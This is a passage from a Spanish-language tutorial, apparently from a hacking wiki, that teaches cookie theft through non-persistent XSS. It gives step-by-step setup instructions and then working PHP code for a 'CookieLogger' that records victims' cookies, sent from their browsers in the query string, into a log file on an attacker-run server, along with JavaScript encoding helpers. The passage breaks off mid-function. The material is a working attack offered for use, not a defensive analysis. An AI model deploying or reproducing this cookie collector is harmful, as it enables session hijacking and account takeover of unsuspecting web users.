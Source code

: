 El **robo de cookies** es la cosa más dañino que podemos hacer con **XSS no persistentes**. Una cookie  registrará todas las cookies del usuario que accede a la página o a un documento determinado. La forma más sencilla de hacer esto, sería:

* En primer lugar, usted debe configurar un servidor.&#x20;
* Una vez que tenga su servidor, cree un nuevo archivo. Llámelo **CookieLog.txt** deje en blanco el código.&#x20;
* Cree otro archivo con el nombre "CookieLogger.php". En CookieLogger.php, tenemos que añadir algo de código, para que envíe las cookies que inician una sesión, en nuestra sesión de Cookies. Añadir este código:

```
<?php
/*
* Created on 16. april. 2007
* Created by Audun Larsen (audun@munio.no)
*
* Copyright 2006 Munio IT, Audun Larsen
*
*/
 
if(strlen($_SERVER['QUERY_STRING']) > 0) {
$fp=fopen('./CookieLog.txt', 'a');
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n");
fclose($fp);
} else {
?>
 
var ownUrl = 'http://<?php echo $_SERVER['HTTP_HOST']; ?><?php echo $_SERVER
['PHP_SELF']; ?>';
 
// ==
// URLEncode and URLDecode functions
//
// Copyright Albion Research Ltd. 2002
// http://www.albionresearch.com/
//
// You may copy these functions providing that
// (a) you leave this copyright notice intact, and
// (b) if you use these functions on a publicly accessible
// web site you include a credit somewhere on the web site
// with a link back to http://www.albionresearch.com/
//
// If you find or fix any bugs, please let us know at albionresearch.com
//
// SpecialThanks to Neelesh Thakur for being the first to
// report a bug in URLDecode() - now fixed 2003-02-19.
// And thanks to everyone else who has provided comments and suggestions.
// ==
function URLEncode(str)
{
// The Javascript escape and unescape functions do not correspond
// with what browsers actually do...
var SAFECHARS = "0123456789" + // Numeric
"ABCDEFGHIJKLMNOPQRSTUVWXYZ" + // Alphabetic
"abcdefghijklmnopqrstuvwxyz" +
"-_.!~*'()"; // RFC2396 Mark characters
var HEX = "0123456789ABCDEF";
 
var plaintext = str;
var encoded = "";
for (var i = 0; i < plaintext.length; i++ ) {
var ch = plaintext.charAt(i);
if (ch == " ") {
encoded += "+"; // x-www-urlencoded, rather than %20
```